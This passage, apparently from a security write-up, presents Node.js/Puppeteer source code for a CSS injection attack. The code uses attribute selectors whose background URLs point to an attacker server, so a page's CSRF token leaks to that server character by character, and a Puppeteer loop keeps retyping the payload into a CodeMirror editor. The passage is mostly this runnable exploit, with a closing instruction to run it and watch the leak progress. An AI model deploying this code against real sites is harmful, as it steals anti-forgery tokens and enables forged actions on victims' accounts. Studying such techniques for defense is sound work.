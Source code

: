 ``` js
    if (!query) return res.end()

    console.log(`query: ${query}, progress: ${query.length}/36`)
    currentToken = query
    if (query.length === 36) {
      console.log('over')
      return
    }
    const payload = generateCss(currentToken)
    updateCssPayload(page, payload)
    res.end()

  })
}

async function updateCssPayload(page, payload) {
  await sleep(300)
  await page.click('.CodeMirror-line')
  await page.keyboard.down('Meta');
  await page.keyboard.press('A');
  await page.keyboard.up('Meta');
  await page.keyboard.press('Backspace');
  await sleep(300)
  await page.keyboard.sendCharacter(payload)
  console.log('Updated css payload, waiting for next request')
}

function generateCss(prefix = "") {
  const csrfTokenChars = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ-_'.split('')
  return `
${prefix}
<style>
    head, meta {
        display: block;
    }
    ${
      csrfTokenChars.map(char => `
        meta[name="csrf-token"][content^="${prefix + char}"] {
            background: url(${baseUrl}${prefix + char})
        }
      `).join('\n')
    }
</style>
  `
}

```

You can run it directly with Node.js. After running it, open the corresponding file in the browser, and you can see the progress of the leak in the terminal.
